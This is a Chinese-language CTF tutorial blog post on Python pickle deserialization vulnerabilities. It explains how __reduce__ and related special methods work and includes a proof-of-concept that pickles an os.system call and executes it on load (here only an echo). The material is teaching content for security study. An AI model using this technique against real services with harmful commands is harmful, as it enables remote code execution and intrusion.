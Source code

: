+++
author = "Lulaide"
title = "Python常见漏洞"
date = "2025-04-11"
description = "CTF比赛中常见Python漏洞"
tags = [
    "渗透",
    "Python",
    "CTF"
]
categories = ["教程&文档"]
image = "cover.png"
+++
## Python反序列化漏洞
> Python 反序列化漏洞是指攻击者通过构造恶意的序列化数据，利用 Python 的 `pickle` 模块或其他序列化库，在服务器端执行任意代码或获取敏感信息的漏洞。Python 的 `pickle` 模块允许将 Python 对象转换为字节流（序列化），并可以将字节流转换回原始对象（反序列化）。

### 漏洞产生的原因
- **pickle ?**
pickle 是一种栈语言，有不同的编写方式，基于一个轻量的 PVM（Pickle Virtual Machine）。python能够实现的功能它也能实现。
- **pickle 的特性**
pickle 模块是为了简化对象的存储和传输而设计，其在反序列化时会重构对象，其中会调用对象的特殊方法，如 __reduce__ 或 __setstate__。这些方法在序列化协议中被用来决定如何重构对象。

| 序号 | 特殊方法             | 说明 |
|------|--------------------|------|
| 1    | **`__new__`**          | 在反序列化过程中，`__new__` 用于创建对象实例（分配内存），通常在对象的具体状态填充前被调用。 |
| 2    | **`__getnewargs__`**   | 当对象的 `__new__` 需要额外的构造参数时，若定义了该方法，它会返回一个包含这些参数的元组，这些参数将传递给 `__new__`。 |
| 3    | **`__reduce__`**       | 该方法返回一个元组，描述如何重构该对象。通常该元组包括一个可调用对象、其参数，及（可选）对象的状态信息。虽然主要用于序列化，但它提供的信息会直接影响反序列化时对象的重构过程。 |
| 4    | **`__reduce_ex__`**    | 与 `__reduce__` 类似，但该方法接收协议版本参数，能够根据不同的 pickle 协议返回不同的重构信息，是新版 pickle 推荐使用的接口。 |
| 5    | **`__getstate__`**     | 在序列化时会调用，用于获取对象的状态（如对象的属性字典）。反序列化时，这部分状态通常会传递给 `__setstate__`。注意：反序列化过程中并不会直接调用 `__getstate__`。 |
| 6    | **`__setstate__`**     | 在反序列化时调用，根据 `__getstate__` 得到的数据恢复或更新对象的内部状态。 |

- **reduce 方法和任意函数调用**
当对象实现了 __reduce__ 方法时，该方法返回一个元组，通常形式为 (callable, args)。在反序列化时，pickle 会调用这个可调用对象，并传入参数 args 来构造对象。攻击者可以利用这一特性来返回任意可调用的函数，比如 os.system，并指定恶意命令作为参数。这样一来，当 pickle.load() 被调用时，恶意函数就会被执行。

生成 Payload
```python
import pickle
import os
from base64 import b64encode, b64decode
class ExploitReduce:
    def __reduce__(self):
        # 返回一个元组，第一个元素是可调用对象 os.system，
        # 第二个元素是一个包含命令的元组，反序列化时将调用 os.system('echo "Exploited via __reduce__!"')
        return (os.system, ('echo "Exploited via __reduce__ method!"',))

malicious_payload = pickle.dumps(ExploitReduce())
print("生成的 pickle 数据:", b64encode(malicious_payload))
```
执行
```python
import pickle
from base64 import b64encode, b64decode
token = "gASVQgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCdlY2hvICJFeHBsb2l0ZWQgdmlhIF9fcmVkdWNlX18gbWV0aG9kISKUhZRSlC4="
token = pickle.loads(b64decode(token))
```
可以看到执行了 `echo "Exploited via __reduce__ method!"` 命令。